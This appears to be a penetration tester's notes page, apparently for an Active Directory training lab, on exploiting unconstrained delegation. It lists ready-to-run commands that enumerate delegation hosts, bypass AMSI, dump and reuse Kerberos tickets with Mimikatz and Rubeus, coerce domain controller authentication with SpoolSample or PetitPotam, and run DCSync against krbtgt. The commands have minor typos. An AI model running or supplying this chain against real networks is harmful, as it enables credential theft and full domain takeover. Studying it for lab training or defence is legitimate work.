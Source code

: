 # 1 Unconstrained Delegation

## Using PowerShell

### Methodology/Steps

> 1. For an example we have machine pwn1 as an Unconstrained user; We are pwn0 and we got foot-hold/credentials/hashes for machine pwn2 who has local admin access for machine pwn1; Hence we can perform this attack
> 2. Get a Powershell session as a different user using **"Over pass the hash"** attack if required(in this case its **pwn2/appadmin**)
> 3. We can try searching for local admins it has access to using **Find-LocalAdminAccess -Verbose**
> 4. Create a **New-PSSession** attaching to the **"Unconstrained user"**
> 5. Enter the new session using **Enter-PSSession**
> 6. Bypass the _AMSI_
> 7. EXIT
> 8. Load **Mimikatz.ps1** on the new session using **Invoke-command**
> 9. Enter the new session using **Enter-PSSession** _again_
> 10. Now we can get the admin token and save it to the disk
> 11. Try and check if you have any file from a DA
> 12. If not we can try to pull if there is any sessions logged on as _Administrator_ as pwn0 using **Invoke-Hunter** then run the attack again
> 13. Once we get an DA token we can Reuse the token using **Invoke-Mimikatz**
> 14. Now we can access any service on the DC; Example **`ls \\dc-corp\C$`** or use **WMI-Commands** / **ScriptBlock:Not sure**

***

### PowerView

#### Enumerate computers with Unconstrained Delegation

```powershell
Get-NetComputer -UnConstrained
```

```ad-note
Ignore the domain controllers if they apeare in the list as they have Unconstrained Delegation enabled
```

#### Check if a token is available and save to disk

> **Get admin token** After compromising the computer with UD enabled, we can trick or wait for an admin connection

```powershell
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
```

#### Reuse of the DA token

```powershell
Invoke-Mimikatz -Command '"kerberos::ptt Administrator@krbtgt-DOMAIN.LOCAL.kirbi"'
```

***

### Invoke-Hunter

#### Pull any sessions if logged on with administrator/ Printer Bug

```powershell
Invoke-UserHunter -ComputerName dcorp-appsrv -Poll 100 -UserName Administrator -Delay 5 -Verbose
```

***

## Using Binaries

### Methodology/Steps

> 1. Set Rubeus on monitor mode
> 2. Run Print Bug using MS-RPRN or PetitPotman
> 3. You will get the TGT on rubues
> 4. Copy and inject that into memory using _/ppt_ or do it manually
> 5. Now you can access the shares or do a DCSync Attack

***

### Print Bug

#### 1. MS-RPRN

> https://github.com/leechristensen/SpoolSample

```powershell
MS-RPRN.exe \\us-dc.us.techcorp.local \\us-web.us.techcorp.local
```

$$OR$$

#### 1. PetitPotam

> https://github.com/topotam/PetitPotam

```powershell
PetitPotam.exe us-web us-dc
```

```ad-note
PetitPotam uses EfsRpcOpenFileRaw function of MS-EFSRPC (Encrypting File System Remote Protocol) protocol and doesn't need credentials when used against a DC
```

***

### Rubeus

#### 2. Capture the TGT and Jump or Run DCsync

```powershell
# Captute the TGT
Rubeus.exe monitor /interval:5

# Copy the base64 encoded TGT, remove extra spaces and use it on the attacker' machine
Rubeus.exe ptt /tikcet:

# OR use Invoke-Mimikatz
[IO.File]::WriteAllBytes("C:\AD\Tools\USDC.kirbi",[Convert]::FromBase64String("ticket_from_Rubeus_monitor"))
Invoke-Mimikatz -Command '"kerberos::ptt C:\AD\Tools\USDC.kirbi"'

# Run DCSync
Invoke-Mimikatz -Command '"lsadump::dcsync /user:us\krbtgt"'
```

